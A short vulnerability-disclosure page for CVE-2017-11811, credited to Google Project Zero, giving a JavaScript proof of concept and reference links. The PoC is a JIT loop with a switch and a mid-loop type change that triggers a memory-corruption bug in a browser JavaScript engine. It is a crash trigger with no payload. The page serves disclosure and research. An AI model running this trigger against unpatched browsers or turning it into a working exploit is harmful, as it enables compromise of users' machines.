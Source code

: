 # CVE-2017-11811

- Fix: Nov 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt() {
    for (let i = 0; i < 100; i++) {
        let j = i - 2;
        switch (i) {
            case 2:
            case 4:
            case 6:
            case 8:
            case 10:
            case 12:
            case 14:
            case 16:
            case 18:
            case 20:
            case 22:
            case 24:
            case 26:
            case 28:
            case 30:
            case 32:
            case 34:
            case 36:
            case 38:
                break;
        }

        if (i == 90) {
            i = 'x';
        }
    }
}

function main() {
    for (let i = 0; i &lt; 100; i++) {
        opt();
    }
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11811)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1341)
